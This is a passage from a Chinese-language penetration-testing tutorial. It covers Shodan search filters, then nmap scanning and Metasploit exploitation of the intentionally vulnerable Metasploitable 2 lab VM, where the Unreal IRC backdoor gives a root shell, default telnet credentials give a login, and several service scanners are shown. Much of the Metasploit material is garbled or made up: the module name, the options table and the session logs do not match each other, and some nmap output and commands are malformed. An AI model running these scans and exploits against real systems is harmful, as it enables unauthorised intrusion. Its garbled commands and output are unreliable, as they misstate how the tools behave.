或者查看“主机详情”（Host Details）窗口：

## 结论

在本章中，我们查看了多功能工具 Recon-NG。我们看到了它是如何设计来模拟 Metasploit 的，以便熟悉它的用户能够快速上手 Recon-NG。我们还涵盖了用于主机识别和信息收集的另外几款工具。

# 第 6 章 - Shodan

### 资源

- Shodan 网站 - http://www.shodan.com/
- Google Dorks 数据库 - http://www.exploit-db.com/google-dorks/

### 介绍

Shodan 是网络上最酷的网站之一。它被称为“黑客的 Google”，并多次被描述为“令人恐惧的”，它是一个针对计算机的搜索引擎。它允许你通过关键词搜索计算机来查找互联网上的计算机。例如，你可以搜索加拿大所有的 Microsoft IIS 7.0 服务器以及非洲所有的系统。

如果你熟悉“Google Dorks”，Shodan 与之类似，但它是搜索互联网范围内系统的一种简单得的方法。有效使用 Shodan 的诀窍在于知道正确的关键词。通常是制造商名称或设备型号数字，但有时是一个你永远想不到去寻找的冷门 Web 服务器名称。

但一旦你知道了这些魔法钥匙，你可以在几秒内全球搜索这些设备。通过使用过滤命令，你可以将搜索缩小到特定的设备和区域。安全测试人员可以使用 Shodan 快速评估其网络中哪些系统在不应公开的情况下被暴露。它还可以允许他们发现可能被添加到公司网络的违规或未经授权的设备。在本节中，我们将简要讨论为什么使用 Shodan 扫描你的网络空间是一个好主意。然后，我们将查看如何从 shodan.com 网页界面进行这些搜索，最后通过 Kali Linux 使用 Metasploit 框架进行搜索。

## 为什么要用 Shodan 扫描你的网络？

有大量看似重要的系统本不应该在互联网上公开可见。只需几次关键词搜索就能轻松找到所有内容。从开放的过时且不安全的系统、路由器、网络存储和电话系统——安全摄像头、建筑控制系统甚至安全系统

将指针悬停在端口上可以获取更多信息。但并不是这些。开放的网络打印机和嵌入式设备也是黑客信息的源泉，提供 SNMP 和网络基础设施信息，甚至可能包含用户名和密码

遗憾的是，在这个新的科技世界里，计算机系统并不是唯一可以在网上找到的东西。你确实可以找到完全开放且无保护的大型 HVAC 环境和建筑温度控制系统。你还可以找到其他非常见设备，例如带有在线控制界面的鱼缸，甚至还有难以置信的遥控门

通常在线设备具有安全防护，但这种防护并不总是有效的。由于很多设备没有安全防护，黑客可以利用漏洞

# 公司

Microsoft Corp

157.56.22.68

18.07.2013

2. 国家

详情

3. 主机名

www.co1test3.microsoft.com

```
HTTP/1.0 200 OK
Cache-Control: no-cache
Content-Type: text/html
Last-Modified: Mon, 16 Mar 2009 20:55:26 GMT
Accept-Ranges: bytes
ETag: "699b1f3e6af91.0"
Server: Microsoft-IIS/8.0
V: 1.0 (WinNT 6.1)
PIP: TCP/4; ALL;D DOP CORM CON CURSE CUSE IVo/DA PRD TAL
X-Forwarded-By: ASP.NET
Date: Thu, 18 Aug 2013 22:43:58 GMT
Content-Length: 1020
```

-+ 1. 服务器器标题信息。你可以通过将信息放入标题命令中，搜索包含相同标题文本的其他服务器。

-+ 2. 指定服务器所在的国家位置，同样可以使用国家命令进行搜索。

-+ 3. 主机名搜索命令可以用于通过域名搜索服务器。

-+ 4. 正文文本区域。在 Shodan 中输入的任何未过滤文本都将被视为正文文本搜索，并将查找在正文文本区域请求过信息的服务器。

# 过滤器命令

让我们仔细查看一下过滤器命令。

（要使用这些命令或获取超过一页的结果，你需要注册一个免费的 Shodan 账户。）

# CITY 和 COUNTRY 命令

城市和国家命令允许你缩小搜索的地理位置范围。

`country:(两位字母国家代码)` 或 `city:(城市名称)`

`country:US`

`city:Memphis`

如果你寻找的城市位于多个国家，最好将两者结合起来。

`country:US city:Memphis`

# HOSTNAME 命令

使用 `hostname` 命令扫描整个域名：

`hostname:google`

你可以使用完全限定域名 (FQDN) 的部分，例如 `google`，或者整个站点，如 `www.microsoft.com` 或 `support.microsoft.com`。

# NET 命令

使用 `net` 命令扫描单个 IP 或整个网段范围：

`net:192.168.1.10`

`net:192.168.1.0/24`

# TITLE 命令

你也可以使用 Title 命令搜索项目：

`title:"Server Room”`

标题可能是最容易被忽视的搜索参数之一。你可以扫描整个互联网或你的整个域名来寻找标题关键词。

# KEYWORD 关键词搜索

搜索 Shodan 最流行的方法可能是使用正文关键词搜索。如果你知道目标系统的类型、嵌入式服务器的名称，或者只想搜索返回“200 OK”的网页，那么正文关键词搜索是你的选择。

例如，如果你想找到所有运行 Apache 版本 2.2.8 且仅开放的站点，或者在扫描时未返回错误的信息的站点（即“200 OK”站点），或者使用以下关键词：

```
apache/2.2.8 200 ok
```

或者你可能想跳过任何 401 未授权页面或 302 重定向页面？只需使用减号和 HTML 错误代码即可：

```
apache/2.2.8 -401 -302
```

# 组合搜索

最有效的 Shodan 搜索是通过组合搜索词完成的。通过几个关键词，你就可以搜索你波士顿地区所有的 IIS/7.0 微软服务器。

```
IIS/7.0 hostname:YourCompany.com country:Boston
```

或者你可以对你的域名进行快速安全扫描，寻找需要更新的旧系统。例如位于法国任何地的 IIS/5.0 系统：

```
IIS/5.0 hostname:YourCompany.com country:FR
```

标题搜索效果也很好。许多摄像头在标题中使用“camera”字。如果你的网络不允许出现摄像头，你可以快速检查这一点。

```
Title:camera hostname:YourCompany.com
```

最后，使用 Geo 坐标开启了一些有趣的功能，特别是针对开源情报 (OSINT)。假设你正在创建一个地图，并搜索位于叙利亚大马士附近的 Linux 服务器：

```
geo:Damascus, Syria os:Linux
```

由于某些原因，并不是每个系统都会正确标记城市/国家，geo 可以帮助识别其他系统。

其他其他搜索术语包括：

- **Port:** 按端口搜索。
- **OS:** 按操作系统搜索。
- **After or Before:** 按日期搜索服务器。

# 使用 Metasploit 进行 Shodan 搜索

Shodan 搜索功能已添加到 Metasploit Framework。你只需要从他们的网站注册一个免费 Shodan 账户并获取 API Key。使用 API Key 可以让你自动化 Shodan 搜索。

要使用 Metasploit 查找系统，只需简单操作：


## 在 shodanhq.com 创建账户并使用 Metasploit

1. 在 `shodanhq.com` 创建一个免费账户。
2. 获取 API Key - `http://www.shodanhq.com/api_doc`
3. 启动 PostgreSQL（在终端输入 `service postgresql start`）。
4. 启动 Metasploit 服务（`service metasploit start`）。
5. 启动 Metasploit（`msfconsole`）或使用菜单。

```
msf > use auxiliary/gather/shodan_search
msf auxiliary(shodan_search) >
```

7. 现在，输入 `show options` 查看我们需要的选项：


8. 输入 `set Shodan_APIKey <API Key Number>` 并填写你的 API Key 号。
9. 现在设置你想搜索的 `Query` 字段：
10. 现在输入 `run`。
11. 几秒钟后你将收到关于你搜索关键词的统计数据：

```
msf auxiliary(shodan_search) > run
[*] Total: 42828 on 857 pages. Showing: 1
[*] Country:
[*] United States (US): 8740
[*] France (FR): 5306
[*] Germany (DE): 3278
[*] United Kingdom (GB): 3720
[*] Netherlands (NL): 2185
[*] Collecting data, wait...
```

12. 然后你将看到实际结果：


## 结论

在本节中我们学习了基础介绍、侦和映射；现在让我们攻击主机。`Metasploitable 2` 是一个故意留漏洞的 Linux 发行版。这意味着它的设计中包含了已知的错误和漏洞。它是一个用于 Metasploit 练习和提高计算机技能的平台。

很多人认为 Linux 或 macOS 比 Windows 更安全。但和 Windows 一样，如果不安装系统补丁和更新，它们同样脆弱。

上面的资源包含了安装和使用 Metasploitable 2 的大量信息，因此不会在这个主题上花费大量时间。我们将使用 Kali 执行一些漏洞来看看它是如何工作的。

# 7 – Metasploitable 教程 - 第一部分

### 资源

- `http://www.offensive-security.com/metasploit-leashed/Metasploitable`
- `http://sourceforge.net/projects/metasploitable/files/2/`
- `https://community.rapid7.com/docs/DOC-1875`
- `https://community.rapid7.com/message/4137#4137`

# 第 3 部分 - 攻击主机

## 引言

我们已经介绍了大量的基础介绍、扫描映射；现在让我们攻击主机。`Metasploitable 2` 是一个故意留漏洞的 Linux 发行版。这意味着它的设计中包含了已知的错误和漏洞。它是一个用于 Metasploit 在合法环境中练习和提高计算机技能的平台。

很多人认为 Linux 或 macOS 比 Windows 更安全。但和 Windows 一样，如果不安装系统补丁和更新，它们同样脆弱。

上面的资源包含了安装和使用 Metasploitable 2 的大量信息，因此不会在这个主题上花费大量时间。我们将使用 Kali 执行一些漏洞来看看它是如何工作的。

# 安装和使用 Metasploitable

`Metasploitable 2` 以虚拟机 (`VM`) 形式提供。只需下载文件、解压并用 VMware Player 打开它即可。非常简单。

如果你使用 Virtual Box，Rapid 7 提供了一个展示如何在 Virtual Box 上完整安装 Metasploitable 的视频。可以在上面的资源部分找到视频链接。

> **警告** – 永远不要在面向网络的系统上运行 Metasploitable，它在设计上就是脆弱的！

一旦 `Metasploitable` 启动，你将来到主登录界面：

```
Warning: 永远将此虚拟机暴露在不可信的网络中！
Contact: msfdev[at]metasploitable.com
Login with msfadmin/msfadmin to get started
metasploitable login: 
```

登录，输入菜单上显示的名称和密码：

`msfadmin`/`msfadmin`

你可能无法相信有多少初出道的安全专业人士问过 Metasploitable 的默认登录凭据。而且它们就直接写在登录屏幕上！

登录的过程相当平淡。你基本上会进入一个基于文本的终端提示符：

```
msfadmin@metasploitable:~$
```

但我们来这里不是为了通过键盘使用该系统；目标是尝试从我们的 Kali 系统远程进入该系统。

# 扫描目标

许多安全测试人员使用的首要步骤之一是进行 `nmap` 扫描，以尝试确定哪些端口是开放的，理想情况下甚至能确定这些端口上安装了哪些服务。如果我们能确定开放端口和服务的程序版本，那么我们可能就可以利用该服务中的漏洞并攻破机器。

让我们从 Kali 机器查看 Metasploitable。

要做的第一件事是运行 `nmap` 扫描并查看安装了哪些服务。

- 在你的 Kali 系统上打开终端窗口并输入：

`nmap -sS -Pn <metasploitable IP 地址>`

输入你的 Metasploitable 机器的 IP 地址，在我们的案例中是 `192.168.198.145`。如果你不知道 Metasploitable 的 IP 地址，你始终可以通过输入类似 `nmap -sS -Pn 192.168.198.1-150` 的内容来扫描地址范围。

`-sS` 开关告诉 `nmap` 执行隐身扫描。`-Pn` 告诉 `nmap` 不要运行 ping 扫描来查看哪些服务处于在线。

这将向我们显示开放端口并尝试列举正在运行的服务：

```
root@kali:~# nmap -sS -Pn 192.168.198.145
Starting Nmap 6.40 ( http://nmap.org/ ) at 2013-10-23 15:02 EDT
map scan report for 192.168.198.145
Host is up (0.00030s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE
21/tcp   open ftp
22/tcp   open ssh
23/tcp   open telnet
25/tcp   open smtp
53/tcp   open domain
80/tcp   open http
111/tcp  open rpcbind
139/tcp  open netbios-ssn
445/tcp  open microsoft-ds
512/tcp  open ocxx
513/tcp  open login
514/tcp  open shell
1099/tcp open rimiregistry
1524/tcp open ingresslock
2049/tcp open nfs
2121/tcp open cproxy-ftp
3306/tcp open mysql
5432/tcp open postgresql
5900/tcp open vnc
6311/tcp open x11
6667/tcp open irc
8000/tcp open ajp13
8180/tcp unknown
MAC Address: 00:0c:29:07:64:4E (VMware)

map done: 1 IP address [1 host] scanned in 0.14 seconds
```

那有很多端口啊！

好了，我们确实有很多可能的突破口；看看我们能否找出这些端口上运行着什么服务。让我们再次尝试 `nmap` 命令，但这次添加 `-A` 开关，它将执行操作系统检测并尝试确定服务版本：

```
nmap -sS -Pn -A 192.168.198.145
```

`Nmap` 将运行一段时间，因为它正在尝试检测在这些端口上运行的实际服务。几分钟后，你将看到一个像这样的屏幕：



对于每个端口，查看端口号、服务类型，甚至是对服务软件版本的尝试。

在上面的图片中，我们看到所有普通端口都是开放的。在高端口上也运行着一个服务列表；其中一个特别的是一个虚幻互联网即时聊天（Unreal Internet Relay Chat, IRC）程序：



通常在教程中，他们会针对主要端口的服务。但我建议查看位于高端口的服务。常见的内核服务和只安装一次后可能被遗忘的次要服务相比，哪一个更有可能被修补并保持最新？

所以，让我们看看我们能对 Unreal IRC 服务发现什么信息。

在图片中，我们可以看到软件版本，在这种情况下是 `Unreal IRC 3.2.8.1.`。我们的下一步是针对该软件版本进行漏洞搜索。只需在 Google 中搜索 `unreal.3.2.8.1 exploits` 就能解决问题。

但既然我们可以用 Metasploit 进行搜索，为什么还要用 Google 呢？

# 利用 Unreal IRC 服务

让我们继续运行 Metasploit：

```
root@kali:~$ msfconsole
```

现在只需使用 `search` 命令并粘贴服务名称：

```
msf6> search unreal
```

输出结果如下：

```
------------------------------------------------------------------
Name                                     Rank  Disclosure Date  Grade  Platform Description
------------------------------------------------------------------
exploit/unix/irc/unreal_irc_concon      100  2013-10-23  excellent  linux
  (Unreal IRCd 3.2.8.1 exploit)
------------------------------------------------------------------
```

让我们使用该模块：

```
msf6> use exploit/unix/irc/unreal_irc_concon
msfuse(unix/irc/unreal_irc_concon)>
```

现在查看所需的选项：

```
msfuse(unix/irc/unreal_irc_concon)> show options
```

输出结果如下：

```
HOST           Required  Current Value  Default  Description
------------------------------------------------------------------------------------
HOST           -            127.0.0.1     127.0.0.1  The target host to exploit
LHOST          -            127.0.0.1     127.0.0.1  The local host to bind to
LHOSTPORT      -            4444           4444        The local port to bind to
RHOST          -            127.0.0.1     127.0.0.1  The target host to exploit
                                                              (must be set)
RHOSTPORT      -            6667           6667        The target port to connect to
------------------------------------------------------------------------------------
```

设置 `RHOST`：

```
msfuse(unix/irc/unreal_irc_concon)> set RHOST 192.168.198.145
```

设置 `RHOSTPORT`：

```bash
msfuse(unix/irc/unreal_irc_concon)> set RHOSTPORT 6667
```

现在运行漏洞：

```bash
msfuse(unix/irc/unreal_irc_concon)> exploit
```

你将看到如下输出：

```
[*] Starting exploit/unix/irc/unreal_irc_concon against 192.168.198.145:6667
[*] Sending payload to 192.168.198.145:6667
[*] Connection established, 192.168.198.146:4444 as your shell on 192.168.198.145:6667
msfadmin@metasploitable:~$
```

恭喜！你已经成功攻入了 Metasploitable。

```
msf exploit[unreal_ird_3201_backdoor] > exploit
[*] Connected to 192.168.198.145:6667...
[*] Started reverse double handler
    |irc.metasploitable.LAN NOTICE AUTH ... Looking up hostname...
    |irc.metasploitable.LAN NOTICE AUTH ... Couldn't resolve your hostname; using
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo kijJ2Zupe6C7SSzZnu > 
[*] Routing to level 4
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] echo 'kijJ2Zupe6C7SSzZnu\r\n'
[*] Matching...
[*] A is an input...
[*] Command shall shall session 1 opened (192.168.198.146:4444 -> 192.168.198.145:43558)
-8400
```

注意它显示会话已打开，但随后它只给了你一个闪烁的光标。

```
whoami
root
```

如你上方所示，我输入了 `whoami`，目标系统响应了 `root`。`Root` 用户是你在 Linux 机器上可以拥有的最高级别用户。

成功了！

所有标准的 Linux 命令都可以在我们拥有的 shell 中运行。

例如，我们可以显示密码文件：



我们必须破解密码文件才能获取实际密码；我们将在 `密码攻击` 章节中讨论这个问题。

## 结论


在本章中，我们学习了如何使用 `nmap` 查找测试系统上的开放端口。我们还学习了如何发现这些端口上运行着哪些服务。然后，我们学会了如何针对漏洞服务查找并使用漏洞程序（`exploit`）。

接下来，我们将快速查看 Metasploit 内置的一些扫描器，这些工具可以帮助我们发现并利用特定的服务。

# 第 8 章 – Metasploitable - 第二部分：扫描器

## 简介

在上一章中，我们查看了使用 `Nmap` 扫描系统以寻找开放端口和服务。这次，我们将查看 Metasploit 自带的一些内置辅助扫描器（`auxiliary scanners`）。

运行我们的 `nmap` 扫描产生了大量的开放端口供我们选择。许多人并不知道，Metasploit 内置了大量的扫描器。这些扫描器允许我们从单台计算机或整个网络中搜索并找回服务信息！

所以，让我们开始吧！

在本教程中，我们将使用 Kali 系统作为测试平台，并将故意留的 Metasploitable 2 虚拟机作为目标系统。

## 使用扫描器

要找到可用的扫描器，只需在 Kali 命令行提示符运行 `msfconsole`。Metasploit 启动后，在提示符处输入 `search scanner`：

```
msf > search scanner
Matching Modules
=================
Name                                Rank    Description
auxiliary/admin/smb_check_dir_file    normal  SMB Scanner Check File/Directory Utility
auxiliary/bnat/nat_scan               normal  BNAT Scanner
auxiliary/gather/citrix_published_applications normal  Citrix Metaframe ICA Published Applications
auxiliary/gather/enum_mdns             normal  DNS Record Scanner and Enumerator
auxiliary/gather/natpmp_external_address normal  NAT-PMP External Address Scanner
auxiliary/pro/nexpose                 normal  Nexpose Scanner Integration
auxiliary/pro/webscan                  normal  PRO: Nexpose Scanner
```

向下阅读这个庞大的列表以查看可用内容。

在本教程中，我们将注意力缩小在常见的端口上。作为复习，这里是上一章 `nmap` 扫描的结果：

| PORT | STATE | DESCRIPTION |

|---|---|---|

| 21/tcp | open | ftp |

| 22/tcp | open | ssh |

| 23/tcp | open | telnet |

| 25/tcp | open | smtp |

| 53/tcp | open | domain |

| 80/tcp | open | http |

让我们关注端口 `22`，它是 Secure Shell (`ssh`)。

在 Metasploit 中搜索 `ssh` 扫描器：

注意有几个可用。我们现在只需要版本信息，因此我们将使用 `auxiliary/scanner/ssh_version` 模块。

1. 输入 `use auxiliary/scanner/ssh_version`
2. 然后输入 `show options` 查看可以使用的选项。
3. 在这种情况下，我们需要做的是 `set RHOSTS <IP>` 或远程主机，即我们的目标。
4. 然后直接输入 `exploit` 运行。





我们看到目标确实在运行 SSH 服务器，版本为：

> “SSH-2.0-OpenSSH_4.7p1 Debian-8”

我们现在可以使用此信息搜索漏洞。注意远程主机的命令 `RHOSTS`，我们可以输入一个范围来快速扫描整个网络以寻找 `ssh` 服务器。现在我们有了 SSH 的版本号，可以尝试查找它的漏洞，或者可以使用另一个辅助模块 `auxiliary/scanner/ssh_login` 使用字典文件尝试暴力破解密码。我们将练习留到这里。

## 使用额外的扫描器

某些扫描器返回的信息与其他不同。

### MySQL

例如，如果我们使用 MySQL 扫描，会得到这些：

```
msf> use auxiliary/scanner/mysql/mysql_version
msf auxiliary(mysql_version) > show options

Module options (auxiliary/scanner/mysql/mysql_version):
Name            Current Setting  Required Description
RHOSTS                          The target address range or
CIDR identifier                  yes
PORT            3306             The target port
THREADS         1                yes     The number of concurrent threads

msf auxiliary(mysql_version) > set RHOSTS 192.168.198.145
msf auxiliary(mysql_version) > exploit
[*] 192.168.198.145:3306 is running MySQL 5.0.51-3ubuntu5 (10)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module completed
msf auxiliary(mysql_version) >
```

扫描显示运行着 5.0.51-a。但其他的可以揭示更多。例如，让我们看看 Telnet。

### TELNET

Telnet 版本扫描器可以以不同的方式工作。如果使用用户名和密码，它将尝试登录。如果不使用，它将只获取 banner（标识头）。注意这与我们涵盖的其他不同；在 Metasploitable 机器上，它不返回版本，而是执行 banner 获取。但有时通过它可以发现有趣的信息。让我们设置扫描器：

```
msf auxiliary/scanner/telnet/telnet_version > show options
Module options (auxiliary/scanner/telnet/telnet_version):
Name            Current Setting  Required Description
PASSWORD                        The password for the specified username
RHOSTS                          The target address range or
CIDR identifier                  yes
PORT            23               The target port
THREADS         1                yes     The number of concurrent threads
TIMEOUT         30               yes     Timeout for the Telnet probe
USERNAME                        The username to authenticate as

msf auxiliary(scanner/telnet/telnet_version) > set RHOSTS 192.168.198.145

RHOSTS => 192.168.198.145

msf auxiliary(scanner/telnet/telnet_version) > exploit

[*] 192.168.198.145:23 is open

[*] Scanned 1 of 1 hosts (100% complete)

[*] Auxiliary module completed

msf auxiliary(scanner/telnet/telnet_version) >
```

现在，当我们输入 `exploit` 时，我们看到：



看起来只是一堆文本，没有关于运行什么软件版本的提示。但如果我们观察得仔细一点，我们可以看到其他的：

Login with msfadmin/msfadmin to get started

“Login with msfadmin/msfadmin to get started”，看起来他们是在 Telnet 页面上提供登录凭据！

你在开我玩笑吗？让我们试试看是否有效：

```
root@metasploitable:~# telnet msfadmin 192.168.198.145

Opening 192.168.198.145...

Connected to 192.168.198.145.

Escape character is ']'.

Password:

Last login: Wed Oct 23 14:48:53 EDT 2013 on tty1

Linux metasploitable 2.6.2-24-kernel #1 SMP Apr 10 13:58:00 UTC 2006 i686

The programs included with the Ubuntu system are free software; the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright..

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law.

To access official Ubuntu documentation, please visit:

http://help.ubuntu.com/

No mail.

msfadmin@metasploitable:~~$
```

进去了！

如果我们运行 `id` 命令，我们可以看到该用户（主用户）属于多个组：

```
msfadmin@metasploitable: $ id

uid=1000(msfadmin) gid=1000(msfadmin) groups=40,28(dialout),24(cdrom),25(lp),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(ladman),112(admin),119(bashshare),1000(msfadmin)

msfadmin@metasploitable: $
```

我们可能利用这些信息来进一步利用其他服务。

公司在服务登录页面中包含登录凭据听起来有些不可置信，但信与不由，这在现实生活中发生得比你想象的要多。

# 扫描地址范围

同样有趣的是，通过扫描程序我们有不同的选项可以设置。例如，让我们运行 SMB 扫描器：

